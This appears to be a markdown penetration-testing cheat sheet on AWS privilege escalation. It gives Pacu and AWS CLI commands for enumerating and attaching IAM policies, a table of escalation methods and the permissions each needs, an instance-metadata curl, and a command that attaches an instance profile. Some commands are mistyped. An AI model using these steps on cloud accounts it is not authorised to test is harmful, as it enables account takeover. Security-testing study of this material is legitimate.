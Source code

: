 # Privilege Escalation


Pacu tool 
```
run iam__bruteforce_permissions
```

## IAM Privilege Escalation

Lists all managed policies that are attached to the specified IAM user :

```
aws iam list-attached-user-policies --user-name user-name
```

Retrieves information about the specified managed policy : 

```
aws iam get-policy --policy-arn policy-arn
```

Lists information about the versions of the specified managed policy :

```
aws iam list-policy-versions --policy-arn policy-arn
```

Retrieves information about the specified version of the specified managed policy :

```
aws iam get-policy-version --policy-arn policy-arn--version-id version-id
```

Add an inline policy document that is embedded in the specified IAM user :

```
aws iam put-user-policy --user-name Username--Policy-name PolicyName--policy-document file://Policy.json
```

Lists the names of the inline policies embedded in the specified IAM user :

```
aws iam list-user-policies --user-name user-name
```


[AWS IAM Privilege Escalation – Methods and Mitigation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

| **Privilege Escalation Methods **                          | **Required Permission **                                 |
|------------------------------------------------------------|----------------------------------------------------------|
| Attaching a policy to a user                               | iam:AttachUserPolicy                                     |
| Attaching a policy to a group                              | iam:AttachGroupPolicy                                    |
| Attaching a policy to a role                               | iam:AttachRolePolicy                                     |
| Creating a new user access key                             | iam:CreateAccessKey                                      |
| Creating a new login profile                               | iam:CreateLoginProfile                                   |
| Updating an existing login profile                         | iam:UpdateLoginProfile                                   |
| Creating an EC2 instance with an existing instance profile | iam:PassRole ec2:RunInstances                            |
| Creating/updating an inline policy for a user              | iam:PutUserPolicy                                        |
| Creating/updating an inline policy for a group             | iam:PutGroupPolicy                                       |
| Creating/updating an inline policy for a role              | iam:PutRolePolicy                                        |
| Adding a user to a group                                   | iam:AddUserToGroup                                       |
| Updating the AssumeRolePolicyDocumentof a role             | iam:UpdateAssumeRolePolicy sts:AssumeRole                |
| Passing a role to a new Lambda function, then invoking it  | iam:PassRole lambda:CreateFunction lambda:InvokeFunction |
| Updating the code of an existing Lambda function           | lambda:UpdateFunctionCode                                |



## EC2 Privilege Escalation

Get Information about user identity / role identity   :

```
aws sts get-caller-identity
```

Lists all managed policies that are attached to the specified IAM user :

```
aws iam list-attached-user-policies --user-name user-name
```

Retrieves information about the specified version of the specified managed policy :

```
aws iam get-policy-version --policy-arnpolicy-arn--version-id version-id
```

Get-Information about instance id  :

```
curl http://169.254.169.254/latest/meta-data/instance-id
```
Lists the instance profiles :

```
aws iam list-instance-profiles
```
Attach an instance profile with a role to a EC2 instance: : 

```
aws ec2 associate-iam-instance-profile --instance-id InstanceID --iam-instance-profile Name=ProfileName
```